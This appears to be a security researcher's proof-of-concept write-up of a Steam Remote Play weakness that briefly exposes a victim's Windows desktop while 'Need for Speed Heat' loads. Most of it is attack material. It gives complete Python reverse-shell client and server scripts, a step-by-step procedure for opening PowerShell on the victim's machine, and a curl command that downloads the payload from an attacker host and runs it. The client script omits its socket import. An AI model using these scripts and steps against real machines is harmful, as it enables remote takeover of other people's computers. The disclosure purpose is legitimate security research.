





The vulnerability I'm exploring relates to remote Steam access for games. In this particular case, I used the same account, "chibataglini," which is connected to two different machines: the victim's Windows machine and the attacker's Linux machine. For the purposes of this Proof of Concept (POC), I'm conducting it locally for simplicity. The attack vector is the game "Need for Speed Heat." I tested it with other games, but the same effect couldn't be achieved. Hence, I'm using "Need for Speed Heat" as the attack vector. Therefore, it's essential for "Need for Speed Heat" to be downloaded on both machines; otherwise, the attack won't be possible. In a real-world scenario, social engineering would be required to convince the victim to download the game, but that's not within the scope of this POC.

**Prerequisites:**

**Victim's Computer**:
- Steam account connected with the attacker's account (in this test, it's "chibataglini").
- "Need for Speed Heat" game downloaded.
- Steam application running.
- Python installed (used for the reverse shell). Metasploit can also be used, but it may be detected by antivirus software.

**Attacker's Machine**:
- Steam account connected with the attacker's account (in this test, it's "chibataglini").
- "Need for Speed Heat" game downloaded.
- Python installed.

**Proof of Concept (POC)**

We will start by creating Python server and client scripts to perform the reverse shell. I've attached these scripts; be sure to change the "SERVER_HOST" variable to the attacker's machine's IP. Save these two scripts in a Linux directory.
Code script reverse shell: file **client.py**

```python
import subprocess

SERVER_HOST = "xxx.xxx.xx.xx"
SERVER_PORT = 8080
BUFFER_SIZE = 1024

s = socket.socket()
s.connect((SERVER_HOST, SERVER_PORT))

message = s.recv(BUFFER_SIZE).decode()
print("Server:", message)

while True:
    command = s.recv(BUFFER_SIZE).decode()
    if command.lower() == "exit":
        break
    output = subprocess.getoutput(command)
    s.send(output.encode())
s.close()
```

Open a terminal in the directory where these two files are saved, and run the following command to start a server:

```shell
python3 -m http.server 80
```

This is important because we'll download the "client.py" script on the victim's machine for the reverse shell. Open a new terminal to run our reverse shell server:

```shell
python3 servidor.py
```
file **servidor.py**:
```python
import socket
SERVER_HOST = "0.0.0.0"
SERVER_PORT = 8080
BUFFER_SIZE = 1024
s = socket.socket()


s.bind((SERVER_HOST, SERVER_PORT))

s.listen(5)
print(f"Listening as {SERVER_HOST}:{SERVER_PORT} ...")

client_socket, client_address = s.accept()
print(f"{client_address[0]}:{client_address[1]} Conectado!")

message = "Conexao estabelecida com sucesso!".encode()
client_socket.send(message)

while True:
    command = input("Digite um comando: ")
    client_socket.send(command.encode())
    if command.lower() == "exit":
        break
    results = client_socket.recv(BUFFER_SIZE).decode()
    print(results)
client_socket.close()
s.close()
```

1. Open the Steam application on the attacker's machine.
2. Open Steam on the Linux machine.
3. Navigate to the "Need for Speed" game.
4. Now comes the critical part where the vulnerability becomes apparent. While the game is loading on the victim's system, we have a small window of time to execute our attack.
5. a-)  Click on the "Connect"


If he already connects to the victim's machine, do step 6. If he freezes, do step 12. If he logs in and out, do step 6)
6. Click on the "Stream" button (Since I'm Brazilian and use the translated version of Steam, I'm not sure of the exact name of the button in English, but I demonstrate it in the video. I apologize for this detail.).
8. Once the game streaming begins, access to the Windows machine is possible.
9. If the Windows machine appears, take advantage of this brief window to open PowerShell (you have approximately 3 to 10 seconds to do this). Use the shortcut "Windows+R," type "powershell.exe," and press Enter.
10. With PowerShell open, download the reverse shell file from the attacker's machine using the following command:

```shell
curl http://attacker_ip/client.py -o client.py
```

10. Use the Python command to execute the "client.py" file to perform the reverse shell.

```shell
python3 client.py
```

11. Now, return to the Linux machine, where the terminal with the reverse shell server running will give you access to the Windows machine.


12. **Note:** If the connection is interrupted, it's likely because the game has finished loading on the victim's machine. In this case, you won't be able to run commands on the Windows machine anymore. To continue, stop the game on the Linux machine and repeat steps 5 and 6 to resume from where you left off. The attached video demonstrates this process.


## Video POC: Video showing how to hack the victim's machine.



## Response from the Steam

However, after reporting this vulnerability, the response from the Steam team was as follows:



Therefore, I recommend disabling the Steam Remote Play feature if you do not use it.
I will continue studying this vulnerability for more general cases. As soon as I have new updates, I will post them here.
